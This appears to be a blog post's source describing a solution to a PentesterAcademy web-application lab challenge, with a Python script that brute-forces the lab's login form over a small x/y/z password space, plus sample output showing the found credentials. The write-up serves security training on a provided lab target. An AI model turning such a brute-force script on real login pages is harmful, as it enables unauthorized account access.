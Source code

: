 ```yaml
---
layout: post
title: "PentesterAcademy WAP Challenge 1: Form Bruteforcing"
date: 2014-07-27 00:31:26 +0300
comments: true
categories: [web security, penetration testing, pentester academy]
keywords: bruteforce, pentester academy challenge 1
description: Solution for PentesterAcademy WAP Challenge 1
---
```


[PentesterAcademy](http://www.pentesteracademy.com) has a section dedicated to web application security challenges. In this post I will present my solution to the first challenge, which requires form bruteforcing to authenticate on the provided web page:

http://pentesteracademylab.appspot.com/lab/webapp/1

<!-- more -->

This is how the page looks like:

{% img center /images/wap1.png 'wap1' 'wap1' %}

The provided hint should help with writing a bruteforce script:

**Hint:**

**Company Domain: PentesterAcademy.com**

**Usernames: jack, admin**

**Password Complexity: 5 characters and uses only x,y,z lowercase. Password examples - xxyyz, xyzxy, xyxxx etc.**

So, what we need here is to test the login with usernames of the form *user@companydomain* and 5 character passwords constructed from the given characters.

I wrote a Python script to do that:

``` python
import requests
import itertools


url = 'http://pentesteracademylab.appspot.com/lab/webapp/1'

emails = ['jack@pentesteracademy.com', \
          'admin@pentesteracademy.com']



def buildPassList(iterables, r):
    passlist = []
    for word in itertools.product(iterables, repeat = r):
        passlist.append(''.join(word))
    return passlist

passlist = buildPassList('xyz', 5)

count = 0
fail = 'Failed! Please try again!'
for user in emails:
    for passwd in passlist:
        print 'Try %d - email: %s password: %s' % (count, user, passwd)
        payload = {'email': user, 'password': passwd}
        req = requests.get(url, params=payload)
        if fail not in req.content:
            print payload
            print req.content
            break          
        count += 1
```

I used the requests module, which is very handy for all sorts of URL interaction. To figure out the parameter names and how are they passed to the login form, I tested with some garbage values and saw the URL looked like this:

``` plain
http://pentesteracademylab.appspot.com/lab/webapp/1?email=test&password=xyz
```

From that I knew to use the GET request in the code. Also, when you fail, you get a message stating that you should try again, so I looked for that in the response from the server, and I concluded that if it were absent, it means that the login was successful. When you complete the challenge, there is also a message that says "Well done! This challenge has been cracked!"

Here is a snippet of the output:

``` plain
Try 0 - email: jack@pentesteracademy.com password: xxxxx
Try 1 - email: jack@pentesteracademy.com password: xxxxy
...
Try 477 - email: admin@pentesteracademy.com password: zzzxx
Try 478 - email: admin@pentesteracademy.com password: zzzxy
{'password': 'zzzxy', 'email': 'admin@pentesteracademy.com'}
```

Today's fortune cookie:

> While you recently had your problems on the run, they've regrouped and
> are making another attack.


